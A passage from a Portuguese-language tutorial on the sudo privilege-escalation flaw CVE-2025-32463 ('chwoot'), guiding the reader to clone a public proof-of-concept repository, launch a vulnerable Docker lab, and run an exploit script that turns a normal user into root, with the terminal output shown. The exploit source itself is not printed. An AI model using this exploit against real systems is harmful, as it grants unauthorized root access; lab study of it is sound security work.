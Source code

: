 Basicamente, o `sudo` é "enganado" para carregar e executar uma biblioteca maliciosa com privilégios elevados, mas antes de "entrar completamente" no ambiente.

## Como você pode testar isso?

Aposto 15 kwanzas que você quer testar por conta o CVE 2025-32463, e é isso que vamos fazer agora.

### Clonando o repositório

Não vamos executar o PoC no nosso dispositivo, para isso, vamos utilizar uma máquina (docker) disponível no repositório abaixo:

```bash
git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git

```

### Entrando no ambiente

Nosso querido pr0v3rbs fez um Dockerfile com uma máquina vulnerável ao CHWOOT, basta que rodemos o run.sh

```bash
cd CVE-2025-32463_chwoot
./run.sh

```

### Testando

Para não termos o trabalho, a máquina já vem com um .sh que faz tudo que ensinei no exemplo, de forma simples, apenas rodamos o .sh e temos acesso root!

```
pwn@f151c56ac100:~$ whoami;groups
pwn
pwn
pwn@f151c56ac100:~$ ./sudo-chwoot.sh 
woot!
root@f151c56ac100:/# whoami;groups
root
root pwn
root@f151c56ac100:/# 

```

## Conclão

Nesse paper, entendemos como escalar privilégios de maneira até que simples, sem muito esforço, apenas explorando uma vulnerabilidade.
Caso você fique com qualquer dúvida, sinta-se livre para me contactar no discord: `altof_howosec`!

----------

> Refs:
[NVD](https://nvd.nist.gov/vuln/detail/cve-2025-32463)
[Adapta ONE](https://adapta.org/)
[pr0v3rbs](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot)
Todo o texto é de minha autoria, todos os mermaids foram gerados por IA.

